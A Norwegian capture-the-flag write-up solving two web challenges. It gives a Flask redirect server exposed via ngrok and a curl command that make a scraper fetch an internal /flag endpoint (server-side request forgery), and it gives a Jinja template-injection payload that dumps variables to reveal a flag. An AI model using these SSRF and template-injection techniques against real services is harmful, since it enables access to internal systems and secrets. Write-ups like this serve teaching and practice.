 ### Løsning

```py
from flask import Flask, redirect

app = Flask(__name__)

@app.route("/")
def index():
    return redirect("http://localhost:1337/flag", code=302)

if __name__ == "__main__":
    app.run(host="0.0.0.0")
```

```bash
ngrok http 5000
curl "-X POST https://ssrfingdaweb.pwn.toys/scrape?url=https://_uniqueid_.ngrok-free.app" 
```

<details><summary>Flagg</summary></details>


## webbyarmor

### Analyse av oppgaven

Oppgaven består av en uleselig pythonkode som er generert (beskyttet) av pyarmor. Sammen med koden ligger det også en html template, secret.html, som ser ut til å bli rendret av serveren. I tillegg ligger det også en requirements.txt-fil, som avslører at filen bruker flask og jinja2. 

Når koden kjøres starter den en flask development server som kan besøkes i browser på localhost. Det er enkelt å forstå det grunnlegende i hva denne koden gjør, selv om koden er gjemt. Siden jinja også er importert går tankene fort mot jinja template injection.


### Løsning

Løsningen er å bruke Jinja injection direkte inn i secret.html-fila.

Siden vi kan endre templaten akkurat slik vi vil er det ikke værre enn å skrive `{{ self.__dict__ }}` i dokumentet for å avsløre hvilke variabler eller funksjoner vi har å jobbe med. Dette avslører en variabel, `FLAG_13243235612213abcdefghijklmnopqrstuvwxyz`, som inneholder flagget i klartekst.

<details><summary>Flagg</summary></details>


